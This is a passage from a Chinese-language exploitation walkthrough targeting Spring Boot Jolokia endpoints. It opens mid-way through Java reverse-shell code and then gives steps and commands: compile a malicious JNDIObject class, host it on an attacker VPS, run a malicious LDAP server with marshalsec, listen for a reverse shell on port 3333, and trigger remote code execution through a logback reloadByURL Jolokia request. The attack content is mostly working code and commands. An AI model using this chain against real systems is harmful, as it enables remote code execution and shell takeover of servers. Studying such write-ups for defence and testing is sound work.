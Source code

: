 ```
OutputStream po = p.getOutputStream();
OutputStream so = s.getOutputStream();
while(!s.isClosed()){
while(pi.available()>0){
                    so.write(pi.read());
}
while(pe.available()>0){
                    so.write(pe.read());
}
while(si.available()>0){
                    po.write(si.read());
}
                so.flush();
                po.flush();
Thread.sleep(50L);
try{
                    p.exitValue();
break;
}catch(Exception e){
}
}
            p.destroy();
            s.close();
}catch(Throwable e){
            e.printStackTrace();
}
}
}
```  
  
这里需要用低版本兼容运行  
```
javac -source 1.5 -target 1.5 JNDIObject.java
//生成JNDIObject.class 拷贝到vps根目录
```  
  
3、 开启恶意的ldap服务  
  
利用项目：https://github.com/mbechler/marshalsec，命令如下  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://VPS:port/#JNDIObject 1389
```  
  
监听反弹shell 端口3333  
  
4、 从外部进行远程加载日志配置文件从而RCE  
  
访问地址如下  
```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps:port!/example.xml
```  
# jolokia Realm JNDI 命令执行  
  